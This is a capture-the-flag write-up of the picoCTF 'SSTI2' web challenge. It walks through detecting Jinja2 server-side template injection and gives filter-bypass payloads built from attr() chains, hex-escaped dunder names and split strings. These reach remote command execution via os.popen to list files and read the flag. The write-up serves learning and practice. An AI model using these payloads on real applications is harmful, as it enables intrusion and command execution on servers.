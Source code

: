 
# SSTI CTF Challenge – SSTI2

**Platform:** picoCTF  
**Challenge Name:** SSTI2  
**Category:** Web Exploitation  


## Initial Observations

- User input is rendered in the template
- Basic math payload works, confirming SSTI
- Some keywords like `__class__` trigger: "Stop trying to break me >:("

---

## Exploitation Steps

### 1. Confirming SSTI
Payload:
```jinja2
{{ 7 * 7 }}
```
Output:
```
49
```

### 2. Accessing Internal Variables
Payload:
```jinja2
{{ config }}
```

### 3. Bypassing WAF / Filters

Blocked:
```jinja2
{{ config.__class__ }}
```

Bypass using attr() and hex:
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f') }}
```

Full command execution payload:
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')
|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
|attr('__import__')('os')|attr('popen')('ls')|attr('read')() }}
```

### 4. Discovering Flag File
Output:
```
__pycache__  app.py  flag  requirements.txt
```

### 5. Reading the Flag with String Obfuscation
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')
|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
|attr('__import__')('os')|attr('popen')('c' ~ 'at fl' ~ 'ag')
|attr('read')() }}
```

---

## What I Learned

- How to detect and exploit Server-Side Template Injection (SSTI)
- Understanding Jinja2 context like `request`, `config`, etc.
- Filter bypass techniques using `attr()`, hex encoding, and string concatenation
- Achieving remote command execution through `popen().read()`

---

## Flag

picoCTF{example_fake_flag_here}

---

## References

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- https://jinja.palletsprojects.com/
